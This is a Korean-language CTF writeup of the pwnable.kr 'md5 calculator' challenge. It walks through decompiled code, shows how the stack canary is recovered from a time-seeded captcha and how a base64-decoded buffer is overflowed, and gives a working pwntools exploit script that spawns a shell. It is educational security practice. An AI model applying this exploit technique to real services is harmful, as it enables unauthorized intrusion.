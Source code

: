 ```yaml
---
layout: post
title: Writeup - md5 calculator
---
```


지금까지 pwnable.kr에서 풀어본 문제들 중 점수가 가장 높았고, 그만큼 시간이 많이 걸렸다.

# MD5 Calculator

문제는 다음과 같다.

>We made a simple MD5 calculator as a network service. 
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
> hint : this service shares the same machine with pwnable.kr web service
> 
> Running at : nc pwnable.kr 9002


## 관찰

nc로 pwnable.kr에 접속해 어떤 일이 일어나는지 관찰해보자.

```
- Welcome to the free MD5 calculating service -  
Are you human? input captcha : 124274294  
>>> 124274294  
Welcome! you are authenticated.  
Encode your data with BASE64 then paste me!  
>>> asdf  
MD5(data) : 97f9d0857f1490352d489b8048da4ac9  
Thank you for using our service.
```
랜덤해보이는 어떤 숫자를 그대로 입력하면 다음 단계로 넘어가고,  base64 형태로 입력을 주면 MD5로 encrypt된 결과가 나온다.

이제 hash 바이너리를 받아 IDA로 분석해보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```

```c
int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  int v2[8]; // [esp+Ch] [ebp-2Ch]
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    v2[i] = rand();
  return v2[4] - v2[6] + v2[7] + v3 + v2[2] - v2[3] + v2[1] + v2[5];
}
```

captcha 숫자가 사실은 `my_hash()`함수의 결과값이었으며, 이는 `rand()` 함수를 통해 만들어진 난수와 stack canary의 연산을 통해 나온 값임을 알 수 있다. 결과값을 이용해 어떻게든 stack canary값을 역추적할 수 있다면 이후 BOF가 가능할 것이다.

```c
unsigned int process_hash()
{
  signed int n; // ST14_4
  char *ptr; // ST18_4
  char v3; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&v3, 0, 0x200u);
  while ( getchar() != '\n' )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 0x400, stdin);
  memset(&v3, 0, 0x200u);
  n = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, n);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```
`process_hash()`함수는 `fgets()`를 통해 사용자로부터 입력을 받고, 이를 Base64로 decode 해서 스택에 있는 `v3`에 저장한 다음 MD5로 변환한다.
여기서 자세히 보면 처음 `g_buf`에 입력을 받을때는 1024바이트를 받지만, base64로 decode된 결과를 저장하는 `v3`는 512바이트이므로 BOF가 가능하다는 것을 발견할 수 있다.

이번 문제를 풀면서 base64에 대해 처음으로 알게 되었는데, 자세한 설명은 [여기](https://effectivesquid.tistory.com/entry/Base64-%EC%9D%B8%EC%BD%94%EB%94%A9%EC%9D%B4%EB%9E%80)서 찾아볼 수 있다. 간단히 말하자면 base64는 ASCII 코드 중에서 잘 사용되는 64개의 문자를 골라서 64진법으로 나타내는 일종의 인코딩이다.

그러면 다음과 같은 단계로 문제를 풀 수 있게 된다.
1. captcha값을 이용해 stack canary값 역추적
2. base64로 인코딩된 payload를 입력으로 집어넣어 BOF


## 풀이

```python
from pwn import *
import ctypes, base64  
  
p = remote("localhost", 9002)  
libc = ctypes.CDLL("libc.so.6")  
  
context.log_level = "debug"  
  
p.recvuntil("Are you human? input captcha : ")  
seed = libc.time(None)  
captcha = int(p.recvuntil("\n"))  
p.sendline(str(captcha))  
  
libc.srand(seed)  
L = [None]*8  
for i in  range(8):  
	L[i] = libc.rand()  
canary = captcha - L[4] + L[6] - L[7] - L[2] + L[3] - L[1] - L[5]  
canary %= 0x100000000  
  
s = "A"*0x200 + p32(canary) + "B"*0xC  
  
s += p32(0x08048880)  
s += p32(0)  
s += p32(0x0804B0E0 + 720)  
  
p.recvuntil("me!\n")  
  
payload = base64.encodestring(s)  
payload = "".join(payload.split())  
payload += "/bin/sh\x00"  
p.sendline(payload)  
  
p.recvline()  
  
context.log_level = "info"  
p.interactive()
```

먼저 1번이 생각보다 쉽지 않았다. 가장 핵심이 되는 점은 `srand()`의 seed가 `time()` 이라는 사실이다. 서버의 시간을 정확히 알아야만 했다. 또한 seed를 알아도 C library의 `rand()` 값을 알기 위해서는 C의 사용이 필요했다.

내가 생각해낸 방법은 아니었지만, 결국 가장 간단한 방법은 아무 id로 pwnable.kr에 ssh로 접속해 로컬에서 문제를 푸는 것이었다. python의 ctypes 라이브러리를 이용해 `rand()`, `srand()`와 `time()` 함수를 그대로 사용해 문제를 해결할 수 있었다.

canary의 값을 구할 때 integer overflow를 python으로 구현해야 했는데, c_int 연산을 수행하고 싶었으나 방법을 몰라 단순히 0x100000000으로 나눈 나머지를 사용했다.

2번 항목에서 payload를 그대로 입력으로 넣지 않고 base64로 인코딩하는 점은 신선했다. `base64`라는 library를 사용해 쉽게 해결할 수 있었다.

BOF 과정에서 조금 헤맸는데, 처음에는 `fgets()`의 PLT를 사용해 /bin/sh를 입력하려고 했다. 하지만 함수의 입력으로 필요한 `stdin`을 인자로 넘겨줄 방법이 없다는 중요한 교훈을 얻었다. 결국 /bin/sh를 `g_buf`에 입력할 때 같이 넣어주는 간단한 방법으로 해결했다.


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MDYzNDYyMCwtMTYyMTEyNzU2MSwtND
MxMjM5MDU3XX0=
-->